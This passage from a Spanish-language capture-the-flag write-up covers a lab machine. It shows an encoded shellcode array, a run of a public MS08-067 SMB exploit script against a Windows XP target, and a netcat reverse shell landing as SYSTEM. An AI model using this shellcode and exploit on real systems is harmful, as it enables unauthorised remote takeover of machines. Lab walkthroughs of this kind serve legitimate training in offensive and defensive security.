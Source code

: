 ```bash
    "\x63\xf0\xc3\xeb\xda\x35\x97\xbb\x9b\xd8\x43\x80\xf3\x0e\x16"
    "\xbb\xa3\xa1\x93\xab\xa3\xb1\x93\x83\x19\xfe\x1c\x0b\x0c\x24"
    "\x54\x81\xf6\x99\xc9\xe1\xfd\xf6\xab\xe9\xf3\xe0\x17\x62\x15"
    "\x9b\xd3\xbd\xa4\x99\x5a\x4e\x87\x90\x3c\x3e\x76\x31\xb7\xe7"
    "\x0c\xbf\xcb\x9e\x1f\x99\x33\x5e\x51\xa7\x3c\x3e\x9b\x92\xae"
    "\x8f\xf3\x78\x20\xbc\xa4\xa6\xf2\x1d\x99\xe3\x9a\xbd\x11\x0c"
    "\xa5\x2c\xb7\xd5\xff\xea\xf2\x7c\x87\xcf\xe3\x37\xc3\xaf\xa7"
    "\xa1\x95\xbd\xa5\xb7\x95\xa5\xa5\xa7\x90\xbd\x9b\x88\x0f\xd4"
    "\x75\x0e\x16\x62\x13\xbf\x95\xad\x0c\xc1\xab\xe3\x74\xec\xa3"
    "\x14\x26\x4a\x23\xf6\xd9\xfb\xab\x4d\x66\x4c\x5e\x14\x26\xcd"
    "\xc5\x97\xf9\x71\x38\x0b\x86\xf4\x78\xac\xe0\x83\xac\x81\xf3"
    "\xa2\x3c\x3e"
    )  
```                                                                                             

Ahora que tenemos la información actualizada vamos a ejecutar el exploit.

```bash
❯ python ms08_067_2018.py 10.10.10.4 6 445
  #######################################################################
  #   MS08-067 Exploit
  #   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
  #   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_0  67_netapi
  #
  #   Mod in 2018 by Andy Acer:
  #   - Added support for selecting a target port at the command line.
  #     It seemed that only 445 was previously supported.
  #   - Changed library calls to correctly establish a NetBIOS session for SMB transport
  #   - Changed shellcode handling to allow for variable length shellcode. Just cut and paste
  #     into this source file.
  #######################################################################
  
  Windows XP SP3 English (NX)
  
  [-]Initiating connection
  [-]connected to ncacn_np:10.10.10.4[\pipe\browser]
  Exploit finish
  
  Ponemos un listener logrando obtener una reverse shell exitosamente
```
Generamos un listener por el puerto escogido y obtenemos acceso al sistema como usuario `NT Authority/System`
  
```bash
  ❯ rlwrap nc -lvnp 4564
  listening on [any] 4564 ...
  connect to [10.10.14.7] from (UNKNOWN) [10.10.10.4] 1032
  Microsoft Windows XP [Version 5.1.2600]
  (C) Copyright 1985-2001 Microsoft Corp.
  
  hostname
  hostname
  legacy
```
